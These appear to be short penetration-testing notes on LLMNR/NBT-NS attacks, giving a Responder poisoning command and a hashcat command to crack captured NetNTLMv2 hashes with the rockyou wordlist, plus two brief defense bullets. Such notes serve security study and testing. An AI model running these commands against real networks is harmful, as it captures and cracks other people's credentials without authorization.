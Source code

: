 ### Responder
LLMNR & NetBios (NBT-NS) Poisoner

`responder -I wlp59s0 -rdw -v`

### Hashcat
Crack hashes

`hashcat -m 5600 hash.txt rockyou.txt`
- where `-m` is the module (`hashcat --help | grep LLMNR`)

### Defense
- Disable LLMNR
- Require Access Control